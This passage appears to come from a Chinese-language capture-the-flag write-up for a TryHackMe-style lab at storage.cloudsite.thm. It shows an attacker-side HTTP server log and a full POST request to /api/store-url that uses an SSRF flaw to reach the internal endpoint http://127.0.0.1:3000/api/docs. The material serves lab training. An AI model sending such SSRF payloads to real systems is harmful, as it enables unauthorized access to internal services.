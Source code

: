 ``` Shell
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.100.9 - - [25/Feb/2025 11:16:58] "GET /test.txt HTTP/1.1" 200 -
```

文件重定向到图示目录，利用SSRF漏洞，尝试访问之前无法访问的/api/docs，但是当强制发出请求时，仍是拒绝访问

![](images/d5ed67ec5e21e5ac2df0b3fa2ba3f54d.png)
发包尝试根据文件位置读到上传的文件内容，继续发包，接下来尝试通过Apache路由（端口3000，为express的默认端口)

```
POST /api/store-url HTTP/1.1

Host: storage.cloudsite.thm

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: */*

Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3

Accept-Encoding: gzip, deflate, br

Referer: http://storage.cloudsite.thm/dashboard/active?

Content-Type: application/json

Content-Length: 40

Origin: http://storage.cloudsite.thm

Connection: keep-alive

Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InR0dEB0dHQuY29tIiwic3Vic2NyaXB0aW9uIjoiYWN0aXZlIiwiaWF0IjoxNzQwNTAxODgwLCJleHAiOjE3NDA1MDU0ODB9.Kqx2s88qAU0xJyQY9tfrXLWidhtqwLFPgQXsehewiWA

Priority: u=0



{"url":"http://127.0.0.1:3000/api/docs"}
```

